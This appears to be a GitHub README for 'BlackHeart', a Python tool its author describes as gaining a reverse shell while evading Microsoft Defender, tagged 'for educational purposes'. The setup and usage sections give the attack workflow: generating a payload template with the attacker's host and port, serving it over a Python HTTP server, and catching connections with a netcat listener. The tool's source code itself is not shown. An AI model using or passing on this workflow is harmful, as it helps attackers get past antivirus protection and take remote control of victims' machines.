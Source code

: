 # BlackHeart
<img src="https://img.shields.io/badge/-Linux-black?style=for-the-badge&logo=Linux&logoColor=white"> <img src="https://img.shields.io/badge/-Python-black?style=for-the-badge&logo=python&logoColor=white"><br>

BlackHeart is a simple python script to demonstrate reverse shell gaining without Microsoft Defender restrictions. (FOR EDUCATIONAL PURPOSES!!)

# Setup
You can use simply the following command<br>
```bash
pip3 install -r requirements.txt
```

# Usage
- First of all you have to generate a template for your shell.
```bash
python3 blackheart.py --lhost YOUR_IP --lport YOUR_PORT
```

- Then you have to open a simple http server to serve your template.
```bash
python3 -m http.server
```

- And you need to open a listener port to listen incoming connections.
```bash
nc -lvp 4545
```

# PoC
![animation](https://user-images.githubusercontent.com/42123683/187213124-dfadfa31-2afe-4016-961a-eddea6726500.mp4)
